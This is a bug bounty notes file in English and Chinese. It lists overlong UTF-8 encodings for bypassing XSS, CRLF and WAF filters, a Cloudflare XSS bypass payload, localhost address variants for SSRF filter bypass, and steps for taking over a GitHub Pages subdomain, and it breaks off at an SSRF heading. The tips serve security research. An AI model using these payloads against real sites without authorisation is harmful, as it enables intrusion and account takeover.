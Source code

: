 ## Bug Bounty Tips
#tips #bypass #xss #crlf 
Overlong UTF-8 encoding Attack

2-byte / 3-byte ⇒ original
```
C0%8A / %E0%80%8A ⇒ %0A
%C0%8D / %E0%80%8D ⇒ %0D
%C0%BE / %E0%80%BE ⇒ %3E (>)
%C0%BC / %E0%80%BC ⇒ %3C (<)
%C0%A2 / %E0%80%A2 ⇒ %22 (")
%C0%A7 / %E0%80%A7 ⇒ %27 (')
```
For XSS, CRLF, WAF bypass
![bypass](../media/bypass-20230911.jpg)
https://jsfiddle.net/bw1Lhxnt

## Cloudflare XSS protection bypass
#bypass #xss #Cloudflare
```
"&gt;&lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt;
```

## Bug Bounty Tips
#tips #ssrf
List of localhost addresses for SSRF bypass
```
🔹http://localhost
🔹http://*.localhost
🔹http://127.1
🔹http://127.0.0.0
🔹http://127.0.0.1
🔹http://2130706433
🔹http://0177.1
🔹http://0x7f.1
🔹http://127.000.000.1
🔹http://localtest .me
🔹http://[::1]
🔹http://[::]
```

## Github页面接管—子域名接管
### 原理
1. 目标子域 xxx.xx.com
![github404](../media/github404.jpg)
2. dig +域名 拿到cname地址
xxx.github.io

3. github创建一个一样的仓库名
(原理是子域名cname指向这个空的githun页面可以被任何人创建并接管)

4. custom domain 设为 目标子域xxx.xx.com

### 工具🛠️推荐
1. https://github.com/m4ll0k/takeover
2. https://github.com/antichown/subdomain-takeover

## SSRF漏洞自整理
#ssrf 
1. 漏洞原理
